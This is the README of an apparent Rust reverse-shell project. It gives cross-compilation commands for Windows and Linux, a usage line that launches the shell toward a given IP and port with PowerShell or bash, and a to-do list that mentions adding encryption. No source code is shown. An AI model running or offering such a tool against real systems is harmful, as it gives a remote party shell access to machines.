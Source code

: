 # rust-rev-shell

# Installation
- Pour ajouter le compilateur Windows depuis Linux :

```rustup target add x86_64-pc-windows-gnu && cargo install cross```

- Pour ajouter le compilateur Linux depuis Windows :

```rustup target add x86_64-unknown-linux-gnu && cargo install cross```

# Compilation
- Linux for Linux :

``` cargo build ```

- Windows for Windows:

``` cargo build ```

- Linux for Windows :

```cross build --target x86_64-pc-windows-gnu --release```

- Windows for Linux :

```cargo build --target x86_64-unknown-linux-gnu --release```

# Usage
``` ./revshell <IP> <PORT> <powershell|bash> ```

# ToDo
- Add Linux support
- Split function in multiple files
- Encryption
